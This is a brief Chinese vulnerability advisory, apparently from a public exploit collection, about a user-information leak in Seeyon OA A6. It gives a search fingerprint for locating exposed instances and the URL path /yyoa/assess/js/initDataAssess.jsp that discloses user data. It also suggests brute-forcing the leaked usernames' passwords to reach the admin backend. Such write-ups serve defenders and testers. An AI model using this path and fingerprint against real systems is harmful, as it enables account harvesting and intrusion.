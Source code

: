 # 

# 致远OA A6 initDataAssess.jsp 用户敏感信息泄露

## 洞描述

致远OA A6 initDataAssess.jsp 存在用户敏感信息泄露

可以通过得到的用户名爆破用户密码进入后台进一步攻击

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问下列URL泄露用户信息

```
http://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```
